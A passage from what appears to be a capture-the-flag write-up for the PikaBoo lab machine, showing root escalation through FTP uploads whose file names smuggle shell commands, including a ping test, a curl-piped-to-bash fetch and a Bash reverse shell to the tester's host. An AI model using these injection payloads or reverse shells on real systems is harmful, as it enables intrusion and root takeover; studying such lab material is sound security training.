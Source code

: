 

All of this is to show that if I can write into these directories (and
create a file with a name like this), I'll have execution as root.

#### POC on PikaBoo

I'll use FTP to upload the empty `text.txt` file, but change the name to
something that will `ping` me if it executes:



    ftp> put test.txt "|ping -c 1 10.10.14.6; a.csv"
    local: test.txt remote: |ping -c 1 10.10.14.6; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.



When the minute rolls over, I get ICMP packets:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    16:20:05.293445 IP 10.10.10.249 > 10.10.14.6: ICMP echo request, id 25701, seq 1, length 64
    16:20:05.293486 IP 10.10.14.6 > 10.10.10.249: ICMP echo reply, id 25701, seq 1, length 64



#### Shell

The challenge here is that I have to put everything I want to do in one
line, and it can't contain `/`. That means I can't call a script in
another directory, or directly do a reverse shell as they all contain
`/`. I found two ways to do this (there are probably more).

One is to create a rev shell Bash script on my host and request it with
`curl` and pipe it into `bash`. The only trick is I can't use `/`, so I
just need to make it the index file. On my host:



    oxdf@parrot$ cat index.md 
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



Now I'll upload the file:



    ftp> put test.txt "|curl 10.10.14.6|bash; a.csv"
    local: test.txt remote: |curl 10.10.14.6|bash; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
